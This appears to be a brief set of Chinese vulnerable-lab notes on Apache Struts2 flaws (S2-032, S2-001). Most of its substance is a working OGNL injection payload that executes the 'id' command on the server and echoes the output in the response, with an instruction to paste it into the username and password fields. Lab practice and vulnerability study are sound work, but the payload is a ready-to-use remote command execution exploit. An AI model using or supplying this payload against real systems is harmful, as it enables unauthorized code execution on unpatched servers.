 ## CVE-2016-3081 s2-032

![image-20230711171736916](%E9%9D%B6%E5%9C%BA.assets/image-20230711171736916.png)

## CVE-2007-4556 s2-001

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

输入到username password里

![image-20230711204515245](%E9%9D%B6%E5%9C%BA.assets/image-20230711204515245.png)
